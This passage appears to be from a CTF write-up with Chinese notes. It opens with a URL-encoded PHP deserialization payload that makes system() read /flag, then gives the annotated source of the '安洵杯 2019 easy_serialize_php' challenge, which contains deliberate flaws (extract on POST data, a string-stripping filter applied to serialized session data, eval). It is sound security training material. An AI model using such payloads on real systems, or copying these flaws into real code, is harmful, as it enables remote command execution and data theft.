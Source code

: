 ```php
?data=O%3A1%3A"A"%3A2%3A{s%3A7%3A"%00A%00evil"%3Bs%3A9%3A"cat+%2Fflag"%3Bs%3A4%3A"%00A%00a"%3BO%3A1%3A"B"%3A1%3A{s%3A4%3A"%00B%00b"%3Bs%3A6%3A"system"%3B}}
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732845666789-03510e00-7a83-4386-b2b7-629d0b907aab.png)

## 
## [安洵杯 2019]easy_serialize_php1
```php
<?php

  // 获取通过GET方法传递的名为'f'的参数值，并抑制可能出现的错误提示（不建议在生产环境这样用，可能隐藏错误信息）
  $function = @$_GET['f'];

// 定义一个名为filter的函数，用于过滤特定字符串
function filter($img) {
  // 定义一个包含需要过滤的字符串的数组
  $filter_arr = array('php', 'flag', 'php5', 'php4', 'fl1g');
  // 使用implode函数将数组元素用'|'连接起来，构建一个正则表达式模式，用于匹配要过滤的字符串，'i'表示不区分大小写
  $filter = '/'.implode('|', $filter_arr).'/i';
  // 使用preg_replace函数按照定义的正则表达式模式对传入的字符串进行替换操作，将匹配到的字符串替换为空字符串
  return preg_replace($filter, '', $img);
}

// 如果存在$_SESSION变量，则销毁它（这里的逻辑有点奇怪，一般是先判断是否存在再使用）
if ($_SESSION) {
  unset($_SESSION);
}

// 设置$_SESSION["user"]的值为'guest'
$_SESSION["user"] = 'guest';
// 将通过GET方法获取到的'f'参数值赋给$_SESSION['function']
$_SESSION['function'] = $function;

// 从POST请求数据中提取变量并创建对应的变量（如果同名变量已存在可能会覆盖，存在安全风险）
extract($_POST);

// 如果没有通过GET方法传递'f'参数
if (!$function) {
  // 输出一个超链接，指向index.php并传递'f=highlight_file'参数，链接文本为'source_code'
  echo '<a href="index.php?f=highlight_file">source_code</a>';
}

// 如果没有通过GET方法传递'img_path'参数
if (!$_GET['img_path']) {
  // 将'guest_img.png'进行base64编码后的值赋给$_SESSION['img']
  $_SESSION['img'] = base64_encode('guest_img.png');
} else {
  // 如果传递了'img_path'参数，先对其进行base64编码，然后再进行SHA1哈希计算，将结果赋给$_SESSION['img']
  $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

// 对序列化后的$_SESSION数据进行过滤处理，调用前面定义的filter函数
$serialize_info = filter(serialize($_SESSION));

// 如果通过GET方法传递的'f'参数值为'highlight_file'
if ($function == 'highlight_file') {
  // 使用highlight_file函数输出index.php的源代码（一般用于调试目的）
  highlight_file('index.php');
} else if ($function == 'phpinfo') {
  // 使用eval函数执行phpinfo函数，用于输出PHP的相关配置信息等，这里使用eval存在安全风险，因为可以注入恶意代码
  eval('phpinfo();'); //maybe you can find something in here!
```